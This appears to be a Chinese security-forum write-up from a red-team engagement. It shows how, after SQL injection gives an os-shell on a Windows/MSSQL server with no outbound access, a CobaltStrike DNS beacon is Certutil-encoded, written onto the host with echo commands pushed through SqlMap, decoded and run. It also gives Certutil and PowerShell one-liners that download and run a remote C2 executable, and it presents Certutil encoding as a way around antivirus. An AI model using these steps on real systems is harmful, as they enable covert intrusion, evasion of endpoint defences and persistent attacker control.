# SQL 注入恶劣环境之可执行文件上传骚姿势 - 先知社区

SQL 注入恶劣环境之可执行文件上传骚姿势

- - -

# 0# 概述

在前期 Web 打点成功获得对应权限后，就进入了后渗透（提权、内网渗透、域渗透）的阶段，但是在有些时候，总会出现各种各样奇怪的情况，在此也分享一些经验出来。

最近在打红队外援碰到了一个站点存在 SQL 注入，于是尝试用 SqlMap 对网站进行注入，发现注入成功，但由此也引发了一系列问题。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204180757-4548e5fc-c345-1.png)

**可能你看完本篇文章，会觉得原理其实很简单。但试问你自己，在面对以下情况的时候，能想到通过这样的手法达成你的目的吗？这就是本文的意义**

# 1# 情况描述

通过 SqlMap 进行输入后，通过参数 `--os-shell` 成功获取目标系统命令行的执行权限，如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204180814-4f7683e0-c345-1.png)

-   目标系统：Microsoft Windows Server 2012 R2 Standard
-   数据库系统：Microsoft SQL Server 2012
-   域：`ev****.cn`
-   whoami：`nt service\mssqlserver`
-   文件管理情况：只有部分目录的读写权限，无法写入 Web 目录
-   命令使用情况：无法使用 PowerShell
-   杀软情况：有安装深信服 EDR（`edr_monitor.exe` / `edr_agent.exe` / `edr_sec_plan.exe`）
-   网络连接情况：不出网，但能 DNS 解析

当我尝试写入 Web 目录的时候，难蚌：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204180830-58b104f8-c345-1.png)

# 2# 情况分析

怎么判断不出网但能 DNS 解析呢？如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204180840-5eaa1688-c345-1.png)

通常来说，在红蓝攻防中 Web 打点成功后，一般会上传 C2 并上线清理入侵痕迹，然后再去搜索敏感文件以及对内网资产进行探查。

**上传 C2 到服务器一般有以下操作（针对 Win）：**

1.  **通过 WebShell 上传 C2 文件并执行**
2.  **通过 `Certutil` 远程下载 C2 文件并执行**
3.  **通过 `PowerShell` 远程下载 C2 文件并执行**

通过 `Certutil` 远程下载 C2 文件并执行

```plain
certutil -urlcache -gmt -split -f http://C2文件远程地址 C2 文件名.exe && C2 文件名.exe 执行参数
```

通过 `PowerShell` 远程下载 C2 文件并执行

```plain
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://C2 文件远程地址','C2 文件名.exe') && C2 文件名.exe 执行参数
```

但我们目前的情况是不出网，那就意味着无法通过公网直接下载可执行文件，也无法正常上线 C2 服务，在这种 SQL 注入恶劣环境我们该何去何从呢？

这种情况，写入可执行文件都很难了，上线 C2 都基本不可能了，更别说提权和内网渗透了。。

# 3# 骚操作开始

我刚开始也卡了半天，没有权限写 Web 目录（意味着写不了 Webshell），登录网站后台也没有什么功能点（没有文件上传、没有文件包含），不出网也就无法下载相关的可执行文件，让我一时半会没了方向。

摸了几天，同时也请教了不少大佬，感觉都没思路了，突然想起来我之前这篇文章： [《苛刻条件下:C2 上传执行骚姿势》](https://blog.zgsec.cn/archives/158.html) ，于是我有了一个大胆的想法，我决定尝试一下

我们再来复习一下 Windows 系统的自带工具：`Certutil`

`certutil.exe` 是一个合法 Windows 文件，用于管理 Windows 证书的程序。

微软官方是这样对它解释的：

> Certutil.exe 是一个命令行程序，作为证书服务的一部分安装。  
> 您可以使用 Certutil.exe 转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原 CA 组件以及验证证书，密钥对和证书链。

但是此合法 Windows 服务，现已被广泛滥用于恶意用途

很多人只知道可以通过 `Certutil` 进行远程下载文件（会被杀软拦截），但不知道它还能加密解密本地文件（不会报毒，可以用来 ByPassAV）

那我就通过本次实战案例，给大家演示一下它在 SQL 注入恶劣环境中的妙用：

## 3.1 加密 C2 可执行文件

因为上文说到目标服务器不出网但能 DNS 解析，于是本次我们打算通过 DNS 上线 CobaltStrike 木马，首先配置 DNS：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204180924-78e2d85a-c345-1.png)

然后在 CobaltStrike 选择 DNS 上线方式即可，很简单这里就不赘述了，如果不会请自行百度

然后，准备好 DNS 上线的可执行文件文件 `dns.exe`，通过 `Certutil` 进行加密导出为 `dns.txt`:

```plain
Certutil -encode dns.exe dns.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204180935-7f5d7866-c345-1.png)

## 3.2 生成骚操作文件写入命令集

众所周知，通过命令行使用 `echo` 命令可以进行文件写入，其实是可以分为追加写入和覆盖写入的：

覆盖写入样例（只要有写入权限，`1.txt` 里面的内容都会覆写）

```plain
echo 1 > 1.txt
//将 1 覆盖写入 1.txt
```

追加写入样例（只要有写入权限，`1.txt` 里面的内容会被追加写入）

```plain
echo 1 >> 1.txt
//将 1 追加写入到 1.txt 的末尾
```

那我们就可以将上文生成的 `dns.txt`，通过这种方式写入到服务器上，然后在服务器上通过 `Certutil` 接码出来就行了。理论存在，实践开始：

先新建一个电子表（`dns.xlsx`）,将 `dns.txt` 复制到 B 列，然后其他列输入一下内容：

```plain
echo 
//A 列内容（echo 后面有个空格）
 >> C:/Users/MSSQLSERVER/Desktop/dns.txt
//C 列内容，后面路径填之前测试的能写入的路径即可
 && echo 1
//D 列内容，双击表格右下角即可自动填充
```

接下来点击单元格右下角，自动填充即可，填充完如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204180946-86469252-c345-1.png)

> 提问：为什么表格 D 列最后要带上一个 `&& echo 1` 的东西？  
> 回答：因为 SqlMap 执行 `--os-shell` 的时候回获取执行命令的回显，如果没有回显会卡挺久的，这个内容主要是给它一个回显，同时也能让攻击者知道写入多少行内容了，这是我自己琢磨出来的，我是不是很聪明哈哈~

做好表格后，全选然后复制，新建一个 TXT 文件粘贴进去：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204181027-9ec9e806-c345-1.png)

但是会发现，中间有一些特殊的空格（表格的分列符），我们要批量删掉：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204181042-a7952f5e-c345-1.png)

然后再把第一行的 `>>` 改为 `>`，其他保持不变即可（防止文件之前有写入其他内容）：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204181058-b0fbf672-c345-1.png)

## 3.3 使用骚操作写入编码后的 TXT

然后通过 SqlMap 进行注入拿到 `os-shell` ，记得注入的时候一定要带参数 `--batch`（自动选择选项），这很重要：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204181109-b77186de-c345-1.png)

运行后，成功拿到 `os-shell`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204181123-bff55eca-c345-1.png)

这时候直接将上面生成的命令集的所有内容，用右键粘贴进行即可：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204181139-c9ad68f4-c345-1.png)

**这里全选复制，再粘贴就行了（因为前面给了参数 `--batch`）会自动一行一行的执行，不需要你手动操作了**

即可实现自动化写入 TXT，这下知道我最后带`&& echo 1` 的作用了吧，截图如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204181150-cfe0914c-c345-1.png)

**注意，这里的操作一定要网络稳定！！！中间出错了一行，TXT 解密为 EXE 的时候就会失败！！！**

## 3.4 写入 TXT 后解码出 EXE

将 `dns.txt` 有惊无险的写入后，用 `Certutil` 进行解密操作即可：

```plain
Certutil -decode C:/Users/MSSQLSERVER/Desktop/dns.txt C:/Users/MSSQLSERVER/Desktop/dns.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204181200-d5ebd434-c345-1.png)

然后再运行解密出的 EXE 即可通过 DNS 上线 CobaltStrike 木马啦~  
接下来就可以通过 C2 服务，来对内网的域进行域渗透哈哈。

# 4# 总结

在日常的渗透实战过程中，总会碰到棘手的难题。很多人往往“知难而退”，但我们不能退缩，因为只有渡过这样的难关，才能带给你蜕变和成长。

每一次的实践、磨砺以及收获，都是自己通往未来的基石，请认真把握好每一次成长的机会吧。很多时候，是自己去让自己成长，业精于勤，荒于嬉。

希望这篇文章，能给困难中的你带来帮助~  
如果有什么更好的思路，欢迎各位师傅和我交流哈哈~
